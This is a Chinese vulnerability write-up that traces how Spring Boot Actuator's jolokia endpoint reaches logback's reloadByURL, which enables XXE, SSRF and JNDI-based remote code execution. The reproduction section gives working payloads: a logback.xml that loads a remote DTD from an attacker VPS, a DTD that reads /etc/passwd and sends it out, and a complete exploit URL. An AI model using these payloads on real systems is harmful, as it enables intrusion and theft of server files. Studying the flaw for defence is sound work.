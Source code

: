 ```yaml
---
title: "Spring Boot Actuator jolokia 配置不当导致的远程文件包含漏洞"
id: zhfly3131
---
```


# Spring Boot Actuator jolokia 配置不当导致的XXE漏洞

## 一、漏洞简介

Spring boot 会把 **/!** 解析成 */*，所以我们只要署恶意脚本，让被攻击服务器访问就会触发漏洞。
***前提条件***
**查看jolokia/list中存在的 Mbeans，是否存在logback 库提供的reloadByURL方法**

```
https://www.0-sec.org:9090/jolokia/list 
```

![4140320665.png](../img/f20f5c7e823f0d037b8142c60dd0f210.png)

## 二、漏洞影响

Spring Boot 2.x

## 三、复现过程

### 漏洞分析

#### 触发流程

**Spring-boot-actuator**->**Jolokia**->**Logback**->**JNDI**->**Rce**

可以在 **JolokiaMvcEndpoint** 类中先看看 **jolokia** 是如何注册的，如下

![image](../img/bf0806e61a0a6fc126b4d00804252268.png)

只要是 **/jolokia** 为第一个 **path** 节点的，都会进入它的执行逻辑中，可以一直跟进到**org.jolokia.http.HttpRequestHandler#handleGetRequest** 里

![image](../img/946a6fbf3f2505d41410886b6fe26bb2.png)

在上图红框流程中，先对 **path** 做 **/** 切割分组，不过可以 **1!/2** 这样能够保留 **/** 符号，后边用得到
可以根据 **path** 节点新建 **JmxRequest** 对象
大致如下图所示，有这么些类别可以指定

![image](../img/870196513b650678e707633837cb0aa0.png)

我们主要观察 exec 类型的，它对应 org.jolokia.request.JmxExecRequest 类型，在它被创建时，会调用父类 org.jolokia.request.JmxObjectNameRequest 的构造函数，如下所示

![image](../img/9b921a5dd7571988b5f80c712698d79e.png)

跟进 initObjectName 函数，如下

![image](../img/e16c1ee02ab43085ad3bf65530c5e796.png)

如上图，这里将 exec 后面的第一个 path 节点带进了 javax.management.ObjectName 构造函数中

![image](../img/b9b755dff799e11d97900b0991463ace.png)

根据上图中的注释描述，可以根据一个字符串（对象名称的字符串表示形式）创建一个 ObjectName 对象，这个对象和后面的反射执行指定函数大有关系

然后将 path 的下一个节点赋值到 JmxExecRequst 的 operation 属性上，将剩余的 path 节点作为 List 赋值给 arguments 属性

至此 JmxRequest 创建完毕，进入 org.jolokia.http.HttpRequestHandler#executeRequest 执行流程当中，其中很多部分就不详细跟踪，大致是又根据 exec 类型创建了一个 org.jolokia.handler.ExecHandler 对象

看见poc很好奇参数转换过程是怎么样的

直接进入到 ExecHandler 的 doHandRequest 当中

![image](../img/113fcb5b6cf0b539664c1c7458d01328.png)

如上图，就是将 JmxExecRequst 中的 operation 做参数类型鉴定，然后根据目标函数需要的参数类型，将 arguments 转换成对应类型，最后执行 server.invoke 的调用，这个调用就是执行我们指定的类中的指定的函数，那这里是不是能够任意类和任意函数都能执行呢，不是的，需要提前注册，注册的内容可以通过 `/jolokia/list` 查看

ch.qos.logback.classic.jmx.JMXConfigurator 就是能够调用的类之一，到了这里就进入到了 `logback` 的依赖包中

简单查看一下它的函数：

![image](../img/e9a10bbdfe253acc034611e4dc4e2437.png)

首先这个类名就很有意思 JMXConfigerator ，和 JMX 的配置有关，函数中也有个 reloadByURL ，从名字就能会意出通过远程加载配置文件并且重启配置23333

先查看 reloadByURL 函数

![image](../img/994933184ba9de2206bd6590045bc239.png)

如上图，它的参数是一个 URL 类型的，我们传入进去只能是 String，但是不用方，ExecHandler 的 doHandRequest 当中会对目标函数的参数类型做适配，将 String 转换成 URL 。
但是这里有个问题，因为需要指定 schema ，所以必须有类似 http:// 这样的开头，而我们的 path 进去以后，会用 / 切割分组的，所以就需要用到前面的流程中对 uri 的处理过程，只需要这样请求就好： `http:!/!/`

跟入 doConfigure 函数

![image](../img/90246ad1a06b2fd4f154015b453c746e.png)

从 url 获取返回流传入下一个 doConfigure 函数，这里也能 ssrf 的
跟进函数如下：

![image](../img/fb1cc522e02a051a423f734adbed5021.png)

继续跟进上图中的红色方框如下

![image](../img/96808491a62e3e896c4d318c109108b1.png)

如上图所示，在调用 recordEvents 的时候带入了输入流，这个输入流是我们可控的，即在自己服务器上放置的 xml 文件， xml 解析的过程就是发生在 recordEvents 的执行过程中，而后红框的调用，是对已经解析完成的内容进行一定的逻辑操作，然后重载配置，后面的过程就不分析了，简单的去看一下 recordEvents 执行过程，如下

![image](../img/6f9a4577dc67626e2f515e0dd0edba44.png)

很简单，build 完成后直接 parse，那我们查看一下 build 的时候是否有做防护，如下

![image](../img/49173cddf7d8b37f247b4bb2eeca7f5a.png)

什么防护和限制都莫得，所以这里也可以造成 xxe

那么到现在为止，只是梳理出来了 xxe 的触发，rce 呢
不方，我们查一查 logback insertFormJNDI 标签啥

![image](../img/50d28afbb1ec410a6f70bfa71d91af76.png)

其中的 env-entry-name 就是指向 jndi 的服务器地址，那么这里我们可以换成自己的恶意 jndi 服务器地址，通过 jndi 触发 java 反序列化，最终导致 RCE

### 漏洞复现

*   在VPS上创建logback.xml，logback中填写jndi服务，当调用时直接触发恶意class。

```
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://vps地址/恶意文件.dtd">%remote;%int;]>
<a>&trick;</a> 
```

*   在VPS上创建ian.dtd

```
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>"> 
```

![2.png](../img/d67da368e964591ed55f7cd1978e5e7e.png)

*   开启http服务

```
python -m SimpleHTTPServer 80 
```

*   远程访问logback.xml文件

```
https://www.0-sec.org:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/VPS地址!/logback.xml 
```

![1.png](../img/c26997d908ed601561d2d89cd97afa7f.png)

*   可以看到服务器上也返回了响应日志
    ![3.png](../img/1d88a7a192f0a76444971681aade5832.png)

## 参考链接

> https://xz.aliyun.com/t/4258

> https://jianfensec.com/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/Spring%20Boot%20Actuators%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4RCE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/